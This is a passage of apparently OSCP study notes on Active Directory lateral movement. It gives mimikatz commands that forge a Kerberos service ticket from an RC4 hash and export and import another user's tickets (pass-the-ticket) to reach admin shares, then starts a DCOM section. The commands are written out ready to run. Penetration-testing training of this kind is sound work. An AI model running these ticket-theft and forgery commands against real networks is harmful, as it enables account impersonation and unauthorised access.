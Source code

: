 example:
```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

# we can check the tickets by,
ps> klist
```
Afte this Now we can access the Webpage connected to that SPN !!

```javascript
PS> iwr -UseDefaultCredentials <servicename>://<computername>
```
![image](https://github.com/kullaisec/OSCP/assets/99985908/0bc204da-3f87-4deb-9e2e-72b806232314)


## Pass the ticket !!

Suppose you are user `jen` and you dont't have access to the `web04` shares only the `dave` user have access

We can get the Ticket of the dave user as a jen user and import it on our computer and get access the web04 ad jen user with dave ticket identity !!

commands
```javascript
.\mimikatz.exe

sekurlsa::tickets /export

exit

dir *.kirbi

# select anyone TGS of the dave user with extenstion *.kirbi
#switch to mimikatz enter the folowing

kerberos::ptt [0;76126]-2-0-40e10000-dave@web04-<RHOST>.LOCAL.kirbi

klist

dir \\web04\admin$
# Now we can access any shares as jen user as a dave Identity !!
```
## DCOM

Suppose we are in CLIENT74[Compromized] machine as a local admin we can make use of this DCOM and get the Shell from files04 if possible!!

We are going to demonstrate this lateral movement attack as the jen user logged in from the already compromised Windows 11 CLIENT74 host.

From an elevated PowerShell prompt, we can instantiate a remote MMC 2.0 application by specifying the target IP of FILES04 as the second argument of the GetTypeFromProgID method.
